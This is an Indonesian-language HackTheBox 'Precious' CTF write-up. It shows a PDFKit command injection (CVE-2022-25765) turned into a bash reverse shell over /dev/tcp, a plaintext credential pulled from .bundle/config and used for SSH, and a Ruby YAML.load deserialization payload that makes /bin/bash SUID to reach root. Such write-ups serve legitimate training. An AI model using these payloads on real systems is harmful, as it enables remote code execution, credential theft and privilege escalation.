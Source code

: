 ```yaml
---
title: "HackTheBox - Precious WriteUps"
date: 2022-12-12 19:00:00 +07:00
categories: [WriteUps]
tags: [ctf, hackthebox, pentest, writeups]
image: 
---
```


# HackTheBox Precious WriteUps

Scanning dengan Nmap seperti biasa dan kita bisa melihat Port yang terbuka seperti Port 22 SSH dan Port 80 http nginx 1.18.0. Selanjutnya kita mencoba fokus pada Port 80 http

```
┌──(root㉿yupy)-[~]
└─# nmap -sC -sV precious.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-12 04:13 PST
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.57 seconds
```

Pada 10.10.11.189 ini akan diarahkan pada precious.htb dan jangan lupa tambahkan domain tersebut pada /etc/hosts. Tampilan pada Port 80 ini menampilkan halaman search engine convert web page to PDF. Kita coba cari kerentanan yang terdapat search engine convert web page to PDF.

![image](https://media.discordapp.net/attachments/740245586095112242/1051834546783531068/image.png)

Sekarang coba mengarahkan Web Page to PDF dengan Server kita sendiri, dengan mencoba menyambungkan dengan server kita.

![image](https://media.discordapp.net/attachments/740245586095112242/1051834923369111552/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1051835167121100810/image.png)

Dengan kita menambahkan payload url http server kita dapat mendownload file PDF otomatis yang ada di server target, dan PDF ini juga berisi Directory Listing website kita sendiri.

![image](https://media.discordapp.net/attachments/740245586095112242/1051835355680219136/image.png?width=859&height=580)
![image](https://media.discordapp.net/attachments/740245586095112242/1051835389486313556/image.png)

Dengan kita mendownload PDF dari website target, kita coba untuk menggunakan exiftool untuk melihat lebih dalam di file PDF tersebut.

![image](https://media.discordapp.net/attachments/740245586095112242/1051835420884881408/image.png)

Selanjutnya disini kami menemukan bahwa website ini vulnerability CVE-2022-25765 yang saya peroleh pada [Artikel](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). Berikut ini kami mencoba menambahkan payload pada:
```
http://10.10.14.16:8000/?name=#{'%20`sleep 5`'}")
```

Disini bahwa payload sleep menandakan tertidur, dan file PDF terdownload otomatis.

![image](https://media.discordapp.net/attachments/740245586095112242/1051835488467697734/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1051835517639069767/image.png?width=804&height=580)

Selanjutnya kita disini mencoba payload sleep menjadi revshell, Dengan revshells.com kita dapat membuat reverse shell menggunakan python dan sambungkan netcat pada terminal untuk melihat apakah berhasil backconnect.

```
http://10.10.14.16:8000/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.16/1337 0>&1"`'}
```
![image](https://media.discordapp.net/attachments/740245586095112242/1051835579312123934/image.png)

Setelah kita dapat backconnect dengan website disini kita coba mencari Informasi Senstive dan mendapatkanya pada directory “cat .bundle/config” 

![image](https://media.discordapp.net/attachments/740245586095112242/1051836735430066226/image.png)
```
ruby@precious:~$ find . -iname 'config' -type f | xargs -I REPLACE ls -halF REPLACE
<config' -type f | xargs -I REPLACE ls -halF REPLACE
-r-xr-xr-x 1 root ruby 62 Sep 26 05:04 ./.bundle/config*
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Kita mencoba menghubungkan dengan SSH dengan “ssh henry@10.10.11.189” password: Q3c1AqGHtoI0aXAYFH

```
┌──(root㉿yupy)-[~]
└─# ssh henry@10.10.11.189
henry@10.10.11.189's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
08******************************8
```
Disini kita berhasil masuk pada SSH. Kita mencoba untuk melihat sudoers apa saja yang bisa kita local privileges, Dengan melihat izin sudoers, kita dapat menjalankan file ruby sebagai root.

```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Jika kita membaca file tersebut, kita dapat melihat bahwa di satu bagian mendapatkan file yml yang mencoba memuat dependencies.yml

```
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
![image](https://media.discordapp.net/attachments/740245586095112242/1051837942324273253/image.png)

Kita melihat bahwa itu menggunakan YAML.load, yang rentan terhadap deserialization attack. Anda dapat membaca lebih lanjut tentang deserialization YAML [disini](https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md). Kita disini mencoba membuat file “dependencies.yml” dengan [payload](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) untuk mengexploitasikan.
```
henry@precious:~$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
henry@precious:~$
```
![image](https://media.discordapp.net/attachments/740245586095112242/1051838267147943936/image.png)
```
henry@precious:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:~$ bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) groups=1000(henry)
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
df********************************c
```
![image](https://media.discordapp.net/attachments/740245586095112242/1051832917434847232/image.png?width=604&height=580)

